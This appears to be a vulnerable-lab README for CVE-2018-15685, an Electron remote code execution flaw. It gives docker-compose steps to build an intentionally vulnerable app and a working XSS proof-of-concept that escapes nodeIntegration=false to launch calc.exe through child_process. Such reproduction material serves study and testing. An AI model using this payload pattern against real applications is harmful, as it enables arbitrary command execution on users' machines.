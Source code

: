 # Electron WebPreferences Remote Code Execution Vulnerability（CVE-2018-15685）

[中文版本(Chinese version)](README.zh-cn.md)

Electron is an open source library developed by GitHub for building cross-platform desktop applications with HTML, CSS, and JavaScript. Electron accomplishes this by combining Chromium and Node.js into a single runtime and apps can be packaged for Mac, Windows, and Linux.

When Electron sets `nodeIntegration=false` (default), the JavaScript in the page cannot access the built-in library of node.js. CVE-2018-15685 bypass this limitation, enabling arbitrary commands to be executed if the user can execute JavaScript (such as when accessing a third-party page or an XSS vulnerability exists in the app).

Reference links:

- https://electronjs.org/blog/web-preferences-fix
- https://www.contrastsecurity.com/security-influencers/cve-2018-15685

## Compile application

Execute the following command to compile an  vulnerability application:

```
docker-compose run -e PLATFORM=win64 --rm electron
```

The value of `PLATFORM` is the operating system on which the application is running. The options are:`win64`、`win32`、`mac`、`linux`。

After the compilation completed, execute the following command to run the web service:

```
docker-compose run --rm -p 8080:80 web
```

Now，access`http://your-ip:8080/cve-2018-15685.tar.gz`to download application.

## expliot

Open the app:

![](1.png)

Click submit, the content in the input box will be displayed in the app, and there is obviously an XSS vulnerability.

We submit `<img src=1 onerror="require('child_process').exec('calc.exe')">` and find that nothing happens, because `nodeIntegration=false`.

At this time, submit the POC (Windows):

```
<img src=1 onerror="window.open().open('data:text/html,<script>require(\'child_process\').exec(\'calc.exe\')</script>');">
```

As you see, calc.exe shows up.

![](2.png)
